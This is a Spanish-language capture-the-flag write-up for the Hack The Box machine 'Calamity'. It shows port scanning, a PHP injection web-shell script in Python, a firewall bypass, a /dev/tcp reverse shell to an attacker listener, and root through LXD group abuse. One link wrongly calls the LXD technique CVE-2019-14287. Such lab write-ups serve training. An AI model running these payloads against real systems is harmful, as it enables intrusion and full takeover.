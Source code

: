 ```yaml
---
title : Máquina|Calamity|HTB|LXD
published : True
---
```

<div class="contenedor">
    <img src="imgs/Calamity/Calamity0.png" width="160" alt="Cheese logo">
    <div>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Dificil. </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/Calamity" style="color: l
ightblue;">Calamity</a></p>
    </div>
</div>

 <h2><font color="white"><center> # Calamity</center></font></h2>
* Empezamos con la enumeración de puertos.
> sudo nmap --min-rate 5000 -sS -Pn --open -p- 10.10.10.27
>
<img src="imgs/Calamity/Calamity1.png">

<br>
* Posteriormente vemos la version y servicio que corren en estos puertos.
>nmap -sCV -p22,80 10.10.10.27
>
<img src="imgs/Calamity/Calamity2.png">

<br>
* Empezamos la identificación de tecnologías plugins y versiones para esta pagina web.
>
<img src="imgs/Calamity/Calamity3.png">

<br>
* Probamos credenciales por defecto por ssh ya que es el puerto con un poco mas de relevancia, pero no obtenemos nada relevante.
>ssh anonymous@10.10.10.27
>
<img src="imgs/Calamity/Calamity4.png">

<br>
* Lanzamos un script de nmap para el reconocimiento de posibles rutas en la pagina web.
> nmap --script http-enum -p80 10.10.10.27
>
<img src="imgs/Calamity/Calamity5.png">

<br>

* Observando las rutas, veo que hay credenciales en la pagina web.
>
<img src="imgs/Calamity/Calamity6.png">

* Cuando inicio sesion tenemos un campo el cual es injectable a código php, y obtenemos un RCE.
>
<img src="imgs/Calamity/Calamity7.png">

<br>
* Cuando intento crearme una reverse Shell no me llega la conexión, lo que me hace pensar que tiene reglas de firewall instaladas para matar la conexión cuando se detecte, por lo que empezamos a montar un script en python simulando una Shell.

```python
#!/usr/bin/python

import requests

while True:

	command = input("~$ ")
	url = f'http://10.10.10.27/admin.php/?0={command}&html=%3C?=`$_GET[0]`;?%3E' 

	cookies = {
	    'adminpowa': 'noonecares'
	}

	response = requests.get(url, cookies=cookies)

	print(response.text)

```
<br>
* web-shell.py
>
<img src="imgs/Calamity/Calamity8.png">

* Si el cortafuegos me mata la conexión cuando detecta el uso de bash, porque no cambiar el nombre de bash?
>
<img src="imgs/Calamity/Calamity9.png">
<img src="imgs/Calamity/Calamity10.png">

* Renombrando la bash intentemos ahora entablar la conexión, pero para que no de problemas en cabeza a el urlencode codificamos primero la petición en ese formato que poseerá la Reverse Shell.
>/tmp/bypass -c '/tmp/bypass -i >& /dev/tcp/10.10.14.4/4445 0>&1'
>
<img src="imgs/Calamity/Calamity11.png">

<br>
* Posteriormente mandamos la petición y nos ponemos en escucha
>sudo nc -nlvp 4445
>
<img src="imgs/Calamity/Calamity12.png">

* Empezamos con un corto tratamiento a la consola para hacerla un poco mas interactiva.
```bash
script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
```
>
<img src="imgs/Calamity/Calamity13.png">

<br>
* Exportamos configuraciones para hacerla aun mas interactiva.
```bash
export TERM=xterm
export SHELL=bash
```
>
<img src="imgs/Calamity/Calamity14.png">

* Observamos que hay un usuario en /home y conseguimos la primera Flag.
>
<img src="imgs/Calamity/Calamity16.png">

* Vemos que efectivamente había un firewall que nos mataba las conexiones.
>
<img src="imgs/Calamity/Calamity17.png">

* Vemos dos archivo con la misma extension.
>
<img src="imgs/Calamity/Calamity18.png">

<br>
* Nos transferimos esos archivos para examinarlos mas a fondo.
>
<img src="imgs/Calamity/Calamity19.png">

* Tienen el mismo sonido pero no el mismo identificador.
>
<img src="imgs/Calamity/Calamity20.png">

* Instalamos audacity.
> sudo apt-get install aducity

<br>
* Importamos los audios y le damos en la parte de invertir.
>
<img src="imgs/Calamity/Calamity21.png">

<br>
* Posteriormente podemos escuchar que nos dice una credencial al inicio y una parte al final, como el audio esta inverso la parte final es la inicial y la parte inicial es la parte final.
> Credencial escuchada : 18547936..*

<br>
* Mirando mas a detalle identifique que la credencial era del usuario xalvas.
>
<img src="imgs/Calamity/Calamity22.png">

<br>

* Al ver los grupos vemos que estamos enlazados a (LXD) lo que hace vulnerable al equipo a un ataque (LXD) para el despliegue de contenedores.
<a href="https://otterhacker.github.io/Pentest/Techniques/Privileges%20escalation/Linux.html">Mas información CVE-2019-14287.</a>
>
<img src="imgs/Calamity/Calamity23.png">

<br>
* Posteriormente vemos que hay un exploit creado por s4vitar que simplemente lo que hace es automatizar el levantamiento del contenedor.
>
<img src="imgs/Calamity/Calamity24.png">

<br>
* Nos dice que tenemo que descarga el archivo alpine-builder.
>
<img src="imgs/Calamity/Calamity25.png">

<br>
* Una vez descargado lo que hacemos sera darle soporte a las dependencias, ya que de por si si lo ejecuta sin actualizar la dependencia le dara errores.
>wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine && sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
>
<img src="imgs/Calamity/Calamity26.png">

* Convertimos a formato Unix el script.
>dos2unix 46978.sh
>
<img src="imgs/Calamity/Calamity27.png">

* Vemos que la maquina es de 32 bits sabemos esto por el i686, esto es importante en base a la creación del docker.
>uname -a
>
<img src="imgs/Calamity/Calamity28.png">

* Posteriormente damos permisos de ejecución y preparamos el build en formato de 32 bits.
> 
>
<img src="imgs/Calamity/Calamity29.png">

* Nos montamos un servidor http para poder compartir los archivos y los descargamos en la maquina de htb, cabe aclarar que la única ruta donde tenemos permisos de escritura es en /dev/shm.
>
<img src="imgs/Calamity/Calamity30.png">

<br>
* Procedemos con la ejecución del docker.
>
<img src="imgs/Calamity/Calamity31.png">

* El error que aparece es porque se esta invocando el docker dos veces para solucionar ese error simplemente comentamos la siguiente linea de código.
>
<img src="imgs/Calamity/Calamity32.png">

<br>

* Procedemos a subir el archivo con las modificaciones realizadas.
>
<img src="imgs/Calamity/Calamity33.png">

* Cuando volvamos a ejecutar el script nos dará root
>
<img src="imgs/Calamity/Calamity34.png">

<br>

* Lo que hace es montar toda la partición de la raíz en un contenedor el cual esta montado en /mnt/root/ Cualquier cosa que modifique en esa montura la modificara en la maquina real, entonces para ganar root completamente agregamos permisos SUID al binario /bin/bash.
>
<img src="imgs/Calamity/Calamity35.png">

<br>

* Ya podríamos ver la flag de root.
>
<img src="imgs/Calamity/Calamity36.png">
